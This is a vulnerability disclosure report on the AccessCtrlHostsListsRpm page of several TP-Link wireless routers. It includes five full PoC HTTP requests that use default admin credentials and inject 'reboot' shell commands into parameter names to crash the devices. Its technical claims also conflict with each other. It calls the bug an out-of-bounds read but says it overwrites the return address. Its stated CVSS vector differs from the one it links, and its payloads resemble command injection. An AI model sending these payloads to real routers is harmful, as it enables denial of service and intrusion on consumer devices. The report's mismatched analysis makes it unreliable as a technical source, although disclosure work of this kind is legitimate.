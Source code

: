# TP-Link TL-WR740N/TL-WR940N/TL-WR941ND/WR743ND/TL-WR841N wireless router /userRpm/AccessCtrlHostsListsRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR740N V1/V2, TP-Link TL-WR940N V2/V3,TP-Link TL-WR941ND V5/V6, TL-WR743ND V1 and TL-WR841N V8 wireless router. Its /userRpm/AccessCtrlHostsListsRpm implementation has a security vulnerability in processing Changed GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - TP-Link TL-WR740N V1/V2  
  - TP-Link TL-WR940N V2/V3  
  - TP-Link TL-WR941ND V5/V6
  - TP-Link TL-WR743ND V1
  - TP-Link TL-WR841N V8

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2：[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1：[8.6 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR740N is as follows:

```http
GET /userRpm/AccessCtrlHostsListsRpm.htm?addr_type=1&hosts_lists_name=QQQ&src_ip_start=192.168.1.1&src_ip_end=192.168.1.8&mac_addr=&|reboot;=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/AccessCtrlHostsListsRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V2/TL-WR941ND V5 is as follows:

```http
GET /OGWQKAABOHFWYCNC/userRpm/AccessCtrlHostsListsRpm.htm?addr_type=1&hosts_lists_name=1&src_ip_start=192.168.0.1&src_ip_end=192.168.0.3&mac_addr=&Changed$(`reboot`)=0&SelIndex=0&fromAdd=1&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/ZRCEHZIAURWJWDTC/userRpm/AccessCtrlHostsListsRpm.htm?Add=Add&Page=1&fromAdd=1&ManPage=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V3/TL-WR941ND V6 is as follows:

```http
GET /DIKHXMDAKLVYFARA/userRpm/AccessCtrlHostsListsRpm.htm?addr_type=1&hosts_lists_name=1&src_ip_start=192.168.0.1&src_ip_end=192.168.0.3&mac_addr=&&&reboot&&=0&SelIndex=0&fromAdd=1&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/WRKWVQRABLAJMDEB/userRpm/AccessCtrlHostsListsRpm.htm?Add=Add&Page=1&fromAdd=1&ManPage=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of WR743ND is as follows:

```http
GET /userRpm/AccessCtrlHostsListsRpm.htm?addr_type=1&hosts_lists_name=auhdoeif&src_ip_start=192.168.1.2&src_ip_end=192.168.1.5&mac_addr=&||CMD=$\"reboot\";$CMD=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49156
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49156/userRpm/AccessCtrlHostsListsRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```

The PoC of WR841N V8 is as follows:

```http
GET /userRpm/AccessCtrlHostsListsRpm.htm?addr_type=1&hosts_lists_name=sfrgdg&src_ip_start=192.168.0.3&src_ip_end=192.168.0.4&mac_addr=&|reboot|=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49169
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49169/userRpm/AccessCtrlHostsListsRpm.htm?Add=Add&Page=1
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/AccessCtrlHostsListsRpm component implements a security vulnerability in processing the Changed GET key parameter. The length of the parameter key of Changed can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:

![](./imgs/success.png)

![](./imgs/before.png)

![](./imgs/router.png)

![](./imgs/router2.png)

![](./imgs/router3.png)

![](./imgs/router4.png)

After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.

![](./imgs/read_err.png)

![](./imgs/fatal.png)

![](./imgs/fatal2.png)

![](./imgs/crash.png)

## 5. The basis for judging as a 0-day vulnerability

Search the AccessCtrlHostsListsRpm keyword in the NVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).

Search the AccessCtrlHostsListsRpm keyword in the CNVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).